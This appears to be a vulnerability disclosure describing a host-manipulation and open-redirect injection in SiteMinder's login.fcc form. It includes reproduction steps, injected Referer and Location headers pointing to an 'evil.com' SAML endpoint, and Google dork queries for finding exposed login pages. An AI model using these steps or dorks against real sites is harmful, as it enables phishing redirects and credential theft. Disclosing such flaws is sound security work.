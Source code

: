 # Host Manipulation Vulnerability

#Overview of the Vulnerability
This vulnerability is capable of injecting contents into the login form in a hidden way (<input type='hidden'), it also adds two reference fields capable of redirecting when performing a successful login.

                                                                                                
# Step to reproduce:
- On url, change a fields /siteminderagent/forms/login.fcc?TYPE=&REALMOID=&GUID=&SMAUTHREASON=0&METHOD=GET&SMAGENTNAME=&TARGET=-SM- {INJECT DOMAIN}
-  After adding a domain to your request, a new form of hidden type will be created automatically (<input type='hidden') and the following parameters will also be added to the request header:

```php
Referer: https:// {URL INJECT HERE} /affwebservices/secure/secureredirect/?SPID=https://evil.com/c2c/saml/metadata&SMPORTALURL=v%2FJaQcXcjv8i0itl6jA1r2S8TfHqIfZQoDq7oEUdb5QFATBYY04pvqJppw%2Bhp0fYSZ JogkCgh4WtuU4h7K%2BqsRXj1fSiLP1hcEFrVyXJ68piomV2582unvZkwlhmdLov&SAMLTRANSACTIONID=925291bf-e9f8e8a5-e00625ea-bb9766fe-40f1431d-dd
```
```php
Location: https:// {URL INJECT HERE} /affwebservices/secure/secureredirect/?SPID=https://evil.com/c2c/saml/metadata&SMPORTALURL=v%2FJaQcXcjv8i0itl6jA1r2S8TfHqIfZQoDq7oEUdb5QFATBYY04pvqJppw%2Bhp0fYSZJo gkCgh4WtuU4h7K%2BqsRXj1fSiLP1hcEFrVyXJ68piomV2582unvZkwlhmdLov&SAMLTRANSACTIONID=769a0761-7f79e2f5-35c4ace4-b9cccadc-f6d42b71-f
```

# Proof of Concept:
## First Redirect (Secure Redirect)
<img src="https://i.imgur.com/jQtU2XL.png">

<br>
<br>  
<br> 

## Second Redirect (After Inject)
<img src="https://i.imgur.com/WsVUBw8.png">
<br> 
<br> 
<br> 

# Google Hacking:
intitle:"SiteMinder Password Services"

inurl:"/siteminderagent/forms/login.fcc"
